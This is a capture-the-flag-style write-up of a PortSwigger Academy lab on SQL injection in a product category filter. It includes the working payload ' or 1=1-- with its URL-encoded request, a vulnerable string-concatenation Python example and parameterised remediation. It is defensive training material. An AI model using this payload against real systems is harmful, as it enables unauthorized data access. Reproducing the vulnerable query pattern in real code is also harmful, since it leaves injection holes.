

# SQL Injection in WHERE Clause — PortSwigger Web Security Academy

[](https://portswigger.net/web-security)
[](https://portswigger.net/web-security/sql-injection)
[](https://owasp.org/www-community/attacks/SQL_Injection)
[](https://owasp.org/Top10/A03_2021-Injection/)
[]()
[](https://github.com/anim-michael-asante)

---

## Table of Contents

- [Overview](#overview)
- [Scope and Objectives](#scope-and-objectives)
- [Methodology](#methodology)
- [Findings](#findings)
- [Risk Summary](#risk-summary)
- [Attack Chain](#attack-chain)
- [Tools and Environment](#tools-and-environment)
- [Evidence](#evidence)
- [Remediation Strategy](#remediation-strategy)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Author](#author)

---

## Overview

This write-up documents the exploitation of a SQL injection vulnerability identified in the product category filter of a simulated e-commerce web application hosted on PortSwigger Web Security Academy. The vulnerability arises from the direct interpolation of unsanitised user-controlled input into a backend SQL query, enabling an unauthenticated attacker to manipulate query logic and retrieve data that the application intended to restrict — specifically, unreleased product records.

The lab is classified as **Apprentice** difficulty and maps to **OWASP A03:2021 — Injection**, **CWE-89**, and **MITRE ATT&CK T1190 (Exploit Public-Facing Application)**. Exploitation required no authentication, no special tooling, and no prior knowledge of the database schema.

---

## Scope and Objectives

### Scope

| Item                | Detail                                                              |
| ------------------- | ------------------------------------------------------------------- |
| Target Application  | PortSwigger Web Security Academy — Simulated E-Commerce Store       |
| Lab URL             | `https://0a95000d0430340780fcc6720016006d.web-security-academy.net` |
| Vulnerable Endpoint | `GET /filter?category=`                                             |
| Environment         | Isolated, sandboxed lab environment — PortSwigger Academy           |
| Engagement Type     | Guided vulnerability exploitation (educational)                     |

### Out of Scope

- Any production or live systems
- Lateral movement or post-exploitation beyond data retrieval
- Any systems outside the PortSwigger Academy sandboxed environment

### Objective

Craft a SQL injection payload targeting the `category` parameter to bypass the `released = 1` filter condition and cause the application to return all product records, including those marked as unreleased.

---

## Methodology

The assessment followed the **OWASP Testing Guide v4.2** and **PTES (Penetration Testing Execution Standard)** for web application vulnerability identification and exploitation.

### Phase 1 — Reconnaissance

Manual inspection of the application's product filtering functionality revealed that category selections were passed directly via the `category` query parameter in the URL:

```
GET /filter?category=Gifts
```

This parameter was identified as a candidate for injection testing based on its direct role in filtering database records.

### Phase 2 — Injection Point Identification

A single quotation mark was submitted to probe for SQL syntax errors:

```
GET /filter?category='
```

The application returned a server-side error, confirming that the input was being incorporated into a SQL query without sanitisation. This constitutes a positive indicator of SQL injection susceptibility.

### Phase 3 — Query Analysis

Based on the disclosed lab context, the backend SQL query was inferred as:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The `released = 1` predicate acts as an access control gate, suppressing unreleased inventory from the public-facing storefront.

### Phase 4 — Payload Construction and Exploitation

A Boolean-based injection payload was constructed to satisfy the `WHERE` clause for all rows and neutralise the `released = 1` restriction via SQL comment syntax:

```
' or 1=1--
```

URL-encoded form submitted:

```
GET /filter?category=%27+or+1=1--
```

Resulting server-side query after injection:

```sql
SELECT * FROM products WHERE category = '' OR 1=1-- AND released = 1
```

The `OR 1=1` condition evaluates to TRUE for every row in the `products` table. The double-dash (`--`) sequence comments out the remainder of the original query, including the `AND released = 1` predicate. All product records — including those with `released = 0` — were returned in the response.

---

## Findings

### Finding F-001 — SQL Injection in Product Category Filter

| Field              | Detail                                                                      |
| ------------------ | --------------------------------------------------------------------------- |
| Finding ID         | F-001                                                                       |
| Title              | SQL Injection via Unsanitised `category` Parameter                          |
| Severity           | [HIGH]                                                                      |
| CVSS v3.1 Score    | 7.5                                                                         |
| CVSS v3.1 Vector   | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                              |
| CWE                | CWE-89 — Improper Neutralisation of Special Elements used in an SQL Command |
| OWASP Category     | A03:2021 — Injection                                                        |
| MITRE ATT&CK TTP   | T1190 — Exploit Public-Facing Application                                   |
| Affected Component | `GET /filter?category=` — Product category filter endpoint                  |

#### Description

The `category` query parameter is concatenated directly into a SQL statement without parameterisation, escaping, or input validation. An unauthenticated attacker can manipulate the query logic to retrieve arbitrary records from the `products` table, bypassing business logic controls such as the `released = 1` visibility filter.

#### Technical Impact

- Full retrieval of all product records, including those withheld from public display
- Complete bypass of the `released` access control predicate
- Potential for extension to `UNION`-based attacks targeting other tables (credentials, user data, session tokens) depending on database configuration and schema structure

#### Business Impact

- Premature disclosure of unreleased product inventory to competitors or the public
- Erosion of trust if customer or transactional data is accessible via further exploitation
- Regulatory exposure under data protection frameworks if personal data is reachable through the same injection vector

#### Proof of Concept

**Injection Payload:**

```
' or 1=1--
```

**Injected Request:**

```http
GET /filter?category=%27+or+1=1-- HTTP/1.1
Host: 0a95000d0430340780fcc6720016006d.web-security-academy.net
```

**Resulting SQL Query (server-side):**

```sql
SELECT * FROM products WHERE category = '' OR 1=1-- AND released = 1
```

**Outcome:** The application returned all product records, including items with `released = 0` (unreleased). The lab marked the objective as solved upon observation of the expanded product listing.

#### Reproduction Steps

1. Navigate to the target application at the lab URL.
2. Observe that category filters alter the URL parameter: `/filter?category=Gifts`
3. Replace the category value with the payload: `/filter?category=%27+or+1=1--`
4. Submit the request. Observe that the product listing now includes items not visible under normal category navigation.

#### Remediation

See [Remediation Strategy — REM-001](#rem-001--parameterised-queries-for-all-database-interactions).

#### Retest Criteria

The finding is considered remediated when:

- Submitting `' or 1=1--` as the `category` value returns no products or returns the same product count as a standard valid category.
- The application does not expose a SQL error message or stack trace.
- A dynamic application security testing (DAST) scan with SQLMap or equivalent returns no injection points on this parameter.

---

## Risk Summary

| ID    | Title                                   | Severity | CVSS | Priority    |
| ----- | --------------------------------------- | -------- | ---- | ----------- |
| F-001 | SQL Injection — Product Category Filter | [HIGH]   | 7.5  | [IMMEDIATE] |

---

## Attack Chain

```
[Attacker]
    |
    | Step 1: Identify filterable endpoint
    |         GET /filter?category=Gifts
    v
[Probe for injection]
    |
    | Step 2: Submit single quote to detect SQL syntax error
    |         GET /filter?category='
    v
[Confirm vulnerability — server returns SQL error]
    |
    | Step 3: Construct Boolean bypass payload
    |         Payload: ' or 1=1--
    v
[Inject payload via URL parameter]
    |
    | Step 4: GET /filter?category=%27+or+1=1--
    v
[Server executes manipulated query]
    |
    | Resulting SQL:
    | SELECT * FROM products WHERE category='' OR 1=1-- AND released=1
    v
[All rows returned — unreleased products exposed]
    |
    v
[Objective achieved — access control bypassed]
```

---

## Tools and Environment

| Tool / Resource                  | Version / Detail                | Purpose                                            |
| -------------------------------- | ------------------------------- | -------------------------------------------------- |
| Browser (Chromium)               | Latest stable                   | Manual request submission and response observation |
| PortSwigger Web Security Academy | Lab: Apprentice — SQL Injection | Target environment                                 |
| URL bar / manual crafting        | N/A                             | Payload delivery                                   |
| Burp Suite Community Edition     | 2024.x (optional)               | HTTP inspection and request manipulation           |

> Note: This lab was solved using manual browser-based exploitation without automated tooling. Burp Suite was available but not required for this specific objective.

---

## Evidence

### Screenshot — Lab Solved



> Caption: The PortSwigger Academy banner confirms lab completion. The expanded product listing visible below the search bar reflects all records returned by the injected query, including items not present under standard category navigation.

> Caption: The PortSwigger Academy banner confirms lab completion. The expanded product listing visible below the search bar reflects all records returned by the injected query, including items not present under standard category navigation.

**Injected URL (captured from browser address bar):**

```
https://0a95000d0430340780fcc6720016006d.web-security-academy.net/filter?category=%27+or+1=1--
```

---

## Remediation Strategy

### REM-001 — Parameterised Queries for All Database Interactions

**Priority:** [IMMEDIATE]  
**Addresses:** F-001

The root cause of this vulnerability is string concatenation of user-supplied input into SQL statements. The correct fix is the use of **parameterised queries (prepared statements)** across all database interactions, regardless of the data source.

#### Vulnerable Pattern (illustrative)

```python
# VULNERABLE — direct string concatenation
query = "SELECT * FROM products WHERE category = '" + category + "' AND released = 1"
cursor.execute(query)
```

#### Secure Pattern

```python
# SECURE — parameterised query
query = "SELECT * FROM products WHERE category = %s AND released = 1"
cursor.execute(query, (category,))
```

In the parameterised form, the database driver handles the input as a data value — not executable SQL. Quotation marks and SQL keywords within the input are treated as literal characters and cannot alter query structure.

#### Additional Hardening Measures

| Control                                     | Description                                                                      | Priority     |
| ------------------------------------------- | -------------------------------------------------------------------------------- | ------------ |
| Parameterised queries / prepared statements | Primary fix — eliminate string concatenation in all SQL construction             | [IMMEDIATE]  |
| Input validation                            | Whitelist acceptable category values server-side                                 | [SHORT-TERM] |
| Least-privilege database accounts           | Application DB user should have SELECT-only permissions on required tables       | [SHORT-TERM] |
| Web Application Firewall (WAF)              | Deploy WAF rules to detect and block common SQL injection patterns               | [PLANNED]    |
| Error handling                              | Suppress detailed SQL errors from HTTP responses; log server-side only           | [SHORT-TERM] |
| Automated DAST scanning                     | Integrate SQLMap or OWASP ZAP into CI/CD pipeline to catch injection regressions | [PLANNED]    |

---

## Lessons Learned

**1. Trust boundaries must be enforced at the query layer, not the presentation layer.**  
Hiding unreleased products through a SQL predicate (`released = 1`) without securing the query construction mechanism creates a false sense of access control. Security controls must be implemented at the lowest possible layer.

**2. SQL injection remains trivially exploitable when parameterised queries are absent.**  
No specialised tooling was required to exploit this vulnerability. A manually crafted URL was sufficient to bypass the intended access restriction. The attack surface is low-complexity and available to any unauthenticated user.

**3. Error messages accelerate exploitation.**  
The application's SQL error response to a single quote submission provided immediate confirmation of the injection point. Suppressing detailed error output is a necessary — though not sufficient — defensive measure.

**4. Boolean-based injection is often a gateway to deeper compromise.**  
The `OR 1=1--` technique demonstrated here is the entry point to more advanced techniques including `UNION`-based data extraction, blind injection, and in some configurations, out-of-band data exfiltration. Identifying and remediating the root cause eliminates the entire attack class.

---

## References

| Reference                                                         | Link                                                       |
| ----------------------------------------------------------------- | ---------------------------------------------------------- |
| PortSwigger — SQL Injection                                       | https://portswigger.net/web-security/sql-injection         |
| OWASP A03:2021 — Injection                                        | https://owasp.org/Top10/A03_2021-Injection/                |
| OWASP Testing Guide v4.2 — Testing for SQL Injection              | https://owasp.org/www-project-web-security-testing-guide/  |
| CWE-89 — SQL Injection                                            | https://cwe.mitre.org/data/definitions/89.html             |
| MITRE ATT&CK T1190 — Exploit Public-Facing Application            | https://attack.mitre.org/techniques/T1190/                 |
| CVSS v3.1 Calculator — NVD                                        | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator       |
| NIST SP 800-115 — Technical Guide to Information Security Testing | https://csrc.nist.gov/publications/detail/sp/800-115/final |

---

## Author

**Michael Asante Anim** | `0x1aerixis`  
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)
[](https://discord.com/users/0x1aerixis)

> _"Built in the lab. Documented for the field."_

---

> **Disclaimer:** All work documented in this repository was conducted in authorized, isolated
> lab environments or sanctioned CTF platforms. No unauthorized systems were accessed.
> This project is intended for educational and portfolio purposes only.
